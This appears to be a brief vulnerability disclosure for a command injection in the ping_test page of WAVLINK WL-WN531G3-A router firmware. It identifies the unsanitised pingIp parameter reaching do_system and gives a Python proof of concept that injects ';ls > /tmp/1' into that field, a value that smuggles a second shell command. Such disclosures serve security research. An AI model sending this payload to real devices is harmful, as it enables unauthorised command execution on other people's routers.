

# command injection

## WAVLINK_WL_WN531G3_A

version: 20220801

## Description:

There is a command injection in adm.cgi/ping_test

## Source:

you may download it from : 

[WL-WN531G3-A - WAVLINK See the world! Powered by Wavlink](https://www.wavlink.com/en_us/firmware/details/c85755a050.html)

## Analyse:



get value from pingIp, then call do_system, cause command injection

## POC

```
url = "http://192.168.0.1/cgi-bin/adm.cgi"
payload = ';ls > /tmp/1  ' + '\n'

r = requests.post(url, data={ 'page':'ping_test', 'pingIp': + payload})
```
